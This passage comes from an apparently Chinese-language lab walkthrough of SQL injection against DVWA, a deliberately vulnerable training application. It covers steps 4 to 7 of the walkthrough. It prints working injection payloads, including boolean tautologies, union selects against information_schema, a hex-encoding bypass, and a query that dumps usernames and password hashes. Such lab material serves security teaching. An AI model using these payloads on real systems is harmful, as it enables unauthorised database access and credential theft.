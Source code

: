 ```抓包更改参数id为1′ or 1=1 # 报错： #是注释作用```


**5.获取数据库中的表**

```抓包更改参数id为-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #```

![14](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103813.png)



![15](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103815.png)



> 说明数据库dvwa中一共有两个表，guestbook与users。



**6.获取表中的字段名**

```抓包更改参数id为1 union select 1,group_concat(column_name) from information_schema.columns where table_name=’users ’#，查询失败：```

![16](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103818.png)





![17](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103826.png)



```利用16进制进行绕过，将 users 转换为16进制 0×7573657273：```

![18](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103828.png)



![19](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103830.png)



> 说明users表中有8个字段，分别是user_id,first_name,last_name,user,password,avatar,last_login,failed_login。



**7.获取表中数据**

```抓包更改参数id 为1 or 1=1 union select user, password from users#```

![21](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103833.png)



![22](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220427103835.png)

```